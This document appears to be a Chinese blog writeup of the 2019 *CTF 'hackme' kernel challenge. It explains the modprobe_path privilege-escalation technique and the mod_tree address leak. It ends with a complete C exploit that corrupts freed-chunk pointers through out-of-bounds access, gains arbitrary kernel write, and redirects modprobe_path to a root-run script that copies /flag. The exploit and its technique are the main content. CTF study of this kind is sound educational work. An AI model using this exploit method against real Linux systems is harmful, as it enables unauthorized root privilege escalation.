 ```yaml
---
layout: post
title: 2019 STARCTF hackme
excerpt: "利用modprobe_path方法提权"
categories: [Writeup]
comments: true
---
```

参考:https://xz.aliyun.com/t/6067

启动脚本
```
#! /bin/sh
qemu-system-x86_64 \
    -m 256M \
    -nographic \
    -kernel bzImage \
    -append 'console=ttyS0 loglevel=3 oops=panic panic=1 kaslr' \
    -monitor /dev/null \
    -initrd initramfs.cpio \
    -smp cores=4,threads=2 \
    -gdb tcp::1234 \
    -cpu qemu64,smep,smap
```
#### modprobe_path
modprobe_path指向了一个内核在运行未知文件类型时运行的二进制文件;当内核运行一个错误格式的文件的时候,会调用这个modprobe_path所指向的二进制文件去，如果我们将这个字符串指向我们的自己的二进制文件,那么在发生错误的时候就可以执行我们自己二进制文件了....

查看modprobe_path地址
```
root@snappyjack:~/2019# cat /proc/kallsyms | grep modprobe_path
ffffffffa405bce0 D modprobe_path
```
原理代码如下,其实就是调用了call_usermodehelper函数:
```
int __request_module(bool wait, const char *fmt, ...) 
{ 
    va_list args; 
    char module_name[MODULE_NAME_LEN]; 
    unsigned int max_modprobes; 
    int ret; 
// char modprobe_path[KMOD_PATH_LEN] = "/sbin/modprobe"; 
    char *argv[] = { modprobe_path, "-q", "--", module_name, NULL }; 
    static char *envp[] = { "HOME=/", 
                "TERM=linux", 
                "PATH=/sbin:/usr/sbin:/bin:/usr/bin", 
                NULL }; // 环境变量. 
    static atomic_t kmod_concurrent = ATOMIC_INIT(0); 
#define MAX_KMOD_CONCURRENT 50    /* Completely arbitrary value - KAO */ 
    static int kmod_loop_msg; 

    va_start(args, fmt); 
    ret = vsnprintf(module_name, MODULE_NAME_LEN, fmt, args);   
    va_end(args); 
    if (ret >= MODULE_NAME_LEN) 
        return -ENAMETOOLONG; 
    max_modprobes = min(max_threads/2, MAX_KMOD_CONCURRENT);    
    atomic_inc(&kmod_concurrent); 
    if (atomic_read(&kmod_concurrent) > max_modprobes) { 
        /* We may be blaming an innocent here, but unlikely */ 
        if (kmod_loop_msg++ < 5) 
            printk(KERN_ERR 
                   "request_module: runaway loop modprobe %s\n", 
                   module_name); 
        atomic_dec(&kmod_concurrent);                           
        return -ENOMEM;                                         
    } 
    ret = call_usermodehelper(modprobe_path, argv, envp,        // 就是这个函数,执行用户空间的应用程序
            wait ? UMH_WAIT_PROC : UMH_WAIT_EXEC); 
    atomic_dec(&kmod_concurrent);                                
    return ret; 
}
```
#### mod_tree
mod_tree是一块包含了模块指针的内存地址,通过查看这个位置我们可以获取到ko文件的地址,在我们需要泄露模块基地址,但是在堆或栈中没有找到的时候可以查看这块内存区域:
```
root@snappyjack:~/2019# grep mod_tree /proc/kallsyms
ffffffffa2d28390 t __mod_tree_remove
ffffffffa2d296b0 t __mod_tree_insert
ffffffffa4006a80 d mod_tree
```
#### 泄露模块地址
根据fastbin的特点,我们知道fd指针指向下一次我们可以申请的地址,如果我们将fd指针修改了,我们就可以拿到我们想要的内存了,同理我们这里也是通过覆盖fd指针为mod_tree的地址,然后就可以查看mod_tree的内容然后就可以得到模块地址了:

覆盖fd指针的方法是先通过向上越访问就可以修改到fd指针,然后alloc两个块,就可以拿到mod_tree了:

#### Use Modprobe_path
通常我们有了任意地址读写能力后,我们可以通过修改cred结构体或者劫持VDSO来进行高权限的操作,但是这里我们使用一种比较有意思的方法来进行高权限的操作;
modprobe_path所指的位置通常是发生了错误的时候才调用的

##### 总结:就是通过任意地址读写修改modprobe_path处的二进制文件,从而进行任意文件读写(modprobe_path就是一个字符串指针,原理是call_usermodehelper(modprobe_path, argv, envp...,所以将这个字符串指针改为我们想要的就行了,注意是绝对路径)
最终exp
```
#include<stdio.h>
#include<unistd.h>
#include<fcntl.h>

struct heap{
    size_t id;
    size_t *data;
    size_t len;
    size_t offset;
};
int fd;

void alloc(int id, char *data, size_t len){
    struct heap h;
    h.id = id;
    h.data = data;
    h.len = len;
    ioctl(fd,0x30000,&h);
}

void delete(int id){
    struct heap h;
    h.id = id;
    ioctl(fd,0x30001,&h);
}

void cin_kernel(int id, char *data, size_t len, size_t offset){
    struct heap h;
    h.id = id;
    h.data = data;
    h.len = len;
    h.offset = offset;
    ioctl(fd,0x30002,&h);
}

void cout_kernel(int id, char *data, size_t len, size_t offset){
    struct heap h;
    h.id = id;
    h.data = data;
    h.len = len;
    h.offset = offset;
    ioctl(fd,0x30003,&h);
}

int main(){
    fd = open("/dev/hackme",0);     // 打开设备
    size_t heap_addr,kernel_addr,mod_tree_addr,ko_addr,pool_addr;
    char *mem = malloc(0x1000);     // 申请一块内存空间
    if(fd < 0){
        printf("[*]OPEN KO ERROR!\n");
        exit(0);
    }
    memset(mem,'A',0x100);
    alloc(0,mem,0x100);         // 也是一种分配内存的方式
    alloc(1,mem,0x100);
    alloc(2,mem,0x100);
    alloc(3,mem,0x100);
    alloc(4,mem,0x100);

    delete(1);
    delete(3);
    cout_kernel(4,mem,0x100,-0x100);
    heap_addr = *((size_t  *)mem) - 0x100;
    printf("[*]heap_addr: 0x%16llx\n",heap_addr);

    cout_kernel(0,mem,0x200,-0x200);
    kernel_addr = *((size_t *)mem) - 0x0472c0;                  // 通过调试得到
    mod_tree_addr = kernel_addr + 0x011000;                     // 通过grep mod_tree /proc/kallsyms 得到
    printf("[*]kernel_addr: 0x%16llx\n",kernel_addr);           // 内核的基地址
    printf("[*]mod_tree_add: 0x%16llx\n",mod_tree_addr);        // 内核mod_tree地址

    memset(mem,'B',0x100);
    *((size_t  *)mem) = mod_tree_addr + 0x50;
    cin_kernel(4,mem,0x100,-0x100);
    memset(mem,'C',0x100);
    alloc(5,mem,0x100);
    alloc(6,mem,0x100);
    cout_kernel(6,mem,0x40,-0x40);
    ko_addr = *((size_t *)mem) - 0x2338;
    pool_addr = ko_addr + 0x2400;
    printf("[*]ko_addr: 0x%16llx\n",ko_addr);
    printf("[*]pool_addr: 0x%16llx\n",pool_addr);

    delete(2);
    delete(5);
    memset(mem,'D',0x100);
    *((size_t  *)mem) = pool_addr + 0xc0;
    cin_kernel(4,mem,0x100,-0x100);
    alloc(7,mem,0x100);
    alloc(8,mem,0x100);

    *((size_t *)mem) = kernel_addr + 0x03f960;
    *((size_t *)(mem+0x8)) = 0x100;
    cin_kernel(8,mem,0x10,0);

    strncpy(mem,"/home/pwn/copy.sh\0",18);
    cin_kernel(0xc,mem,18,0);


    system("echo -ne '#!/bin/sh\n/bin/cp /flag /home/pwn/flag\n/bin/chmod 777 /home/pwn/flag' > /home/pwn/copy.sh");
    system("chmod +x /home/pwn/copy.sh");                       // 运行一系列函数
    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/pwn/sir");
    system("chmod +x /home/pwn/sir");

    system("/home/pwn/sir");
    system("cat /home/pwn/flag");
    return 0;
}
```